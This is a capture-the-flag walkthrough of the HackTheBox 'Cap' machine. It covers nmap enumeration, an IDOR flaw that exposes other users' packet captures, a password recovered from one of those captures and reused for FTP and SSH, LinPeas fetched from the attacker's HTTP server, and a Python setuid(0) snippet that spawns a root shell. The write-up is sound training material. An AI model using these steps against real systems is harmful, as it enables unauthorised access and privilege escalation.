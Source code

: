 #  HackTheBox — Cap Walkthrough

## 🧭 Enumeration

We'll begin by scanning all ports using `Nmap`. You can also use `rustscan` if you wish to speed up the process.

###  Full TCP Nmap Scan

```bash
nmap -T4 -A -p- 10.10.10.245
```

```bash
Nmap scan report for 10.10.10.245
Host is up (0.26s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp   open  http       Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
8888/tcp open  tcpwrapped
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   256.02 ms 10.10.14.1
2   256.16 ms 10.10.10.245

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 793.62 seconds
```


FTP(21), SSH(22), HTTP(80) ports are open on this machine,
lets check out the HTTP service 


![Screenshot From 2025-06-11 16-11-08](https://github.com/user-attachments/assets/a8bb77a8-3004-4b03-a818-d1bec41fade2)

## IDOR
In the security snapshot section, we notice that the value of the `/data/id` increments everytime, this could mean we are able to view packet captures of other users. This is known as Insecure Direct Object Reference (IDOR), wherein a user can 
access data owned by another user

![Screenshot From 2025-06-11 16-14-56](https://github.com/user-attachments/assets/0d9bd8ad-458d-4bea-889c-0b84c9fb5401)


I tried `/data/0` and found multiple packets 

![Screenshot From 2025-06-11 16-18-32](https://github.com/user-attachments/assets/4a0044f5-8915-4369-9028-6ff4b29cc9b8)

We shall download the 0.pcap file and analyse it using wireshark

![Screenshot From 2025-06-11 16-21-11](https://github.com/user-attachments/assets/9837909f-a78b-42bc-bf0a-8cf888abd89e)

This part looks interesting, It seems to be a password to either FTP or SSH services
```bash
username: nathan
password: Buck3tH4TF0RM3!
```

I used the credentials for FTP and it worked!

![Screenshot From 2025-06-11 16-24-59](https://github.com/user-attachments/assets/098a17ec-46f3-4d1b-a4cf-35a0d680c966)

It worked for SSH as well

![Screenshot From 2025-06-11 16-28-11](https://github.com/user-attachments/assets/3dacc215-eddb-478f-a476-390b34a851fe)

now we have a shell in the system : D

![Screenshot From 2025-06-11 16-30-33](https://github.com/user-attachments/assets/e3cd4816-c596-4e83-9606-2b3144fe8a2b)

the user flag in user.txt is in plain sight


## 💂 Privelege Escalation

We shall use LinPeas.sh to escalate priveleges in this machine and gain root access, but LinPeas is not provided in the machine, hence I shall host it using a python http server on my Kali box and simply `cURL` it in the machine


![Screenshot From 2025-06-11 16-37-16](https://github.com/user-attachments/assets/d3306b3d-3b81-4c75-ae63-69f455da1bb6)

Now we can `curl` it to the machine !

![Screenshot From 2025-06-11 16-37-01](https://github.com/user-attachments/assets/dad6016b-0271-4f7a-914e-7ac92e0f7ad8)

we take a look at the "Files with capabilities" section of the linpeas output and find this

![Screenshot From 2025-06-11 16-42-35](https://github.com/user-attachments/assets/cb178f31-14c6-4403-a5da-6b821d0b0c44)

![Screenshot From 2025-06-11 16-46-07](https://github.com/user-attachments/assets/b4979a1d-99ae-4207-9d68-569c2fa4325b)

This lets us change UID to 0 i.e root

we run the python script with the following code:
``` bash
import os
os.setuid(0)
os.system("/bin/bash")
```
![Screenshot From 2025-06-11 16-49-26](https://github.com/user-attachments/assets/7c7e46ac-54e1-4284-a7c1-1fe61fe4a423)

Now that we've gained root access, we shall move to the root dircetory and find the root flag!

![Screenshot From 2025-06-11 16-52-12](https://github.com/user-attachments/assets/c6a123ef-92f5-4ea1-ae1d-2a4e3998e777)


Happy Hacking!!!
                                                              
